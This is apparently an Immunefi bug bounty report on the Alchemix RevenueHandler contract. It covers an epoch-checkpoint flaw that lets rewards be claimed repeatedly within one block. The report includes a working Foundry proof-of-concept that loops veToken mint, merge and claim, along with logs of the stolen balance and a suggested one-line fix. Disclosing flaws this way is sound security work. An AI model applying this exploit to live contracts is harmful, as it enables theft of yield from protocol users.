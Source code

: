 
# # `RevenueHandler.checkpoint` allows users to claim rewards in the current block causing attacker can claim rewards repeatedly  - 

Submitted on May 15th 2024 at 19:01:43 UTC by @yttriumzz for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31242

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro

The `RevenueHandler` contract receives the revenue from Alchemix protocol. One part of the revenue
is sent to the treasury. The rest is distributed to users that have $veToken. Each $veToken can claim rewards once per epoch. Anyone can call the `RevenueHandler.checkpoint` interface to refresh the `currentEpoch`. However, the `checkpoint` interface allows the `currentEpoch` to be updated to the timestamp of the current block, allowing attackers to use `VotingEscrow.merge` to repeatedly claim rewards.

## Vulnerability Details

Please look at the following code. When `block.timestamp` is equal to `currentEpoch + WEEK`, `currentEpoch` is updated to `block.timestamp`.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/RevenueHandler.sol#L228-L231
    function checkpoint() public {
        // only run checkpoint() once per epoch
        if (block.timestamp >= currentEpoch + WEEK /* && initializer == address(0) */) {
            currentEpoch = (block.timestamp / WEEK) * WEEK;
```

The `RevenueHandler` contract calculates the number of rewards that can be claimed for a certain $veToken based on the value of the $veToken at the `currentEpoch` time point. Please see the code below.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/RevenueHandler.sol#L314-L324
        for (
            uint256 epochTimestamp = lastClaimEpochTimestamp + WEEK;
            epochTimestamp <= currentEpoch;
            epochTimestamp += WEEK
        ) {
            uint256 epochTotalVeSupply = IVotingEscrow(veALCX).totalSupplyAtT(epochTimestamp);
            if (epochTotalVeSupply == 0) continue;
            uint256 epochRevenue = epochRevenues[epochTimestamp][token];
            uint256 epochUserVeBalance = IVotingEscrow(veALCX).balanceOfTokenAt(tokenId, epochTimestamp);
            totalClaimable += (epochRevenue * epochUserVeBalance) / epochTotalVeSupply;
        }
```

If `currentEpoch` can be set as the timestamp of the current block, then after the user claim the $veToken reward in the current block, he can transfer the value of $veToken to another $veToken through `VotingEscrow.merge` to continue claim it. The attack steps are briefly described below. Please see the PoC for details.

1. When the `block.timestamp` of the block happens to be `currentEpoch + WEEK`, the attacker calls `RevenueHandler.checkpoint` to update `currentEpoch` to `block.timestamp`
2. The attacker mints a $veTokenA and claim the reward
3. The attacker mints a $veTokenTemp worth 1 wei with a cost of `~0`
4. The attacker merges $veTokenA into $veTokenTemp and claim rewards for $veTokenTemp
5. Treat $veTokenTemp as $veTokenA and go back to Step2

Note that all the above steps are run in the same block.

**Suggested fix**

Users should only be able to claim past rewards

```diff
    function checkpoint() public {
        // only run checkpoint() once per epoch
-       if (block.timestamp >= currentEpoch + WEEK /* && initializer == address(0) */) {
+       if (block.timestamp > currentEpoch + WEEK /* && initializer == address(0) */) {
            currentEpoch = (block.timestamp / WEEK) * WEEK;
```

## Impact Details

Users can claim rewards repeatedly

## References

None


## Proof of Concept

The PoC patch

```diff
diff --git a/src/test/RevenueHandler.t.sol b/src/test/RevenueHandler.t.sol
index 7908478..dab62e9 100644
--- a/src/test/RevenueHandler.t.sol
+++ b/src/test/RevenueHandler.t.sol
@@ -644,4 +644,62 @@ contract RevenueHandlerTest is BaseTest {
         revenueHandler.setTreasury(admin);
         assertEq(revenueHandler.treasury(), admin, "treasury should be admin");
     }
+
+    function testYttriumzzPocTemp() external {
+        // 0. Init test env
+        vm.warp((block.timestamp / 2 weeks) * 2 weeks);
+        hevm.startPrank(admin);
+        deal(bpt, admin, 10000e18);
+        IERC20(bpt).approve(address(veALCX),  type(uint256).max);
+        veALCX.checkpoint();
+        veALCX.createLock(10000e18, 0, true);
+        hevm.stopPrank();
+
+        // 1. Start test and init BPT token
+        address attacker = address(0xa77ac8e3);
+        hevm.startPrank(attacker);
+        console.log(">>>>> Init balance of rewards token");
+        console.log(">> bal.balanceOf(attacker): %s", IERC20(bal).balanceOf(attacker));
+        console.log();
+
+        deal(bpt, attacker, 10000e18);
+        IERC20(bpt).approve(address(veALCX),  type(uint256).max);
+
+        // 2. Checkpoint RevenueHandler
+        //    It is required that `block.timestamp` is exactly `currentEpoch + WEEK`, `block.timestamp` is in seconds, so it is likely to happen.
+        deal(bal, address(revenueHandler), 100e18);
+        vm.warp(block.timestamp + 2 weeks);
+        revenueHandler.checkpoint();
+
+        // 3. Start steal rewards
+        //    Step 3 and step 2 exist in the same block
+        console.log(">>>>> Claim the veToken");
+        veALCX.checkpoint();
+        uint256 tokenId1 = veALCX.createLock(1e18, 0, true);
+        revenueHandler.claim(tokenId1, bal, address(0), revenueHandler.claimable(tokenId1, bal), attacker);
+        console.log(">> bal.balanceOf(attacker): %s", IERC20(bal).balanceOf(attacker));
+        console.log();
+
+        console.log(">>>>> Start steal rewards 50 times");
+        for (uint256 i = 0; i < 50; i++) {
+            uint256 tokenIdTemp = veALCX.createLock(1, 0, true);
+            veALCX.merge(tokenId1, tokenIdTemp);
+            revenueHandler.claim(tokenIdTemp, bal, address(0), revenueHandler.claimable(tokenIdTemp, bal), attacker);
+            tokenId1 = tokenIdTemp;
+        }
+        console.log(">> bal.balanceOf(attacker): %s", IERC20(bal).balanceOf(attacker));
+        console.log();
+
+        console.log(">>>>> Start steal rewards 100 times");
+        for (uint256 i = 0; i < 100; i++) {
+            uint256 tokenIdTemp = veALCX.createLock(1, 0, true);
+            veALCX.merge(tokenId1, tokenIdTemp);
+            revenueHandler.claim(tokenIdTemp, bal, address(0), revenueHandler.claimable(tokenIdTemp, bal), attacker);
+            tokenId1 = tokenIdTemp;
+        }
+        console.log(">> bal.balanceOf(attacker): %s", IERC20(bal).balanceOf(attacker));
+        console.log();
+
+        hevm.stopPrank();
+    }
 }
```

Run the PoC

```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
```

The log

```bash
$ FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/RevenueHandler.t.sol:RevenueHandlerTest
[PASS] testYttriumzzPocTemp() (gas: 118159985)
Logs:
  >>>>> Init balance of rewards token
  >> bal.balanceOf(attacker): 0
  
  >>>>> Claim the veToken
  >> bal.balanceOf(attacker): 9999000099906589
  
  >>>>> Start steal rewards 50 times
  >> bal.balanceOf(attacker): 509949005095236039
  
  >>>>> Start steal rewards 100 times
  >> bal.balanceOf(attacker): 1509849015085894939
  

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 458.15ms (442.17ms CPU time)

Ran 1 test suite in 2.09s (458.15ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

